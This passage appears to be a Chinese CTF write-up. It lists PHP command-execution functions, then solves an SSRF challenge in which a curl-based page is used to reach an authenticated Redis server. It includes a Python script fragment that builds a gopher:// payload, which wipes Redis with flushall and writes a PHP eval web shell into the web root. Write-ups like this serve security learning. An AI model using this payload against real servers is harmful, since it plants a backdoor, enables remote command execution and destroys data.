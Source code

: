 然后flag就在根目录。

知识点：

```php
关于命令执行函数：
1. system：执行系统和外部命令，并输出出来
2. ` `：执行命令，但是不会输出出来，如果要输出出来，需要echo `命令部分`
3. exec：执行命令，但是不会输出出来
	string exec ( string $command [, array &$output [, int &$return_var ]] )
	Command：表示要执行的命令
	Output：这是一个数组，用于接收exec函数执行后返回的字符串结果
	return_var：记录exec函数执行后返回的状态
4.passthru:执行系统命令并输出结果
	void passthru( string $command[, int &$return_var] ) 
5.shell_exec():用于执行shell命令并将执行的结果以字符串的形式返回，但是不会将结果进行输出。
	如果输出的话，print(or echo)shell_exec()
6.popen：popen函数会将执行后的系统命令结果用一个文件指针的形式返回。
	popen(命令，文件打开模式)
7.proc_open：执行一个命令，并且打开用来输入/输出的文件指针。类似于popen函数

```

### givemeyourlove

```php
<?php
// I hear her lucky number is 123123
highlight_file(__FILE__);
$ch = curl_init();
$url=$_GET['url'];
if(preg_match("/^https|dict|file:/is",$url))
{
    echo 'NO NO HACKING!!';
    die();
}
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);   
curl_close($ch);  
?> 
```

提示幸运数字是123123，说明就是密码

打有认证redis

```php
常规思路我们需要用?url=dict://127.0.0.1:port来爆破，探测端口，但是dict被禁用了，直接使用默认端口6379
```

直接跑脚本

```python
import urllib.parse
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="1.php"
path="/var/www/html"
passwd="123123"
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
```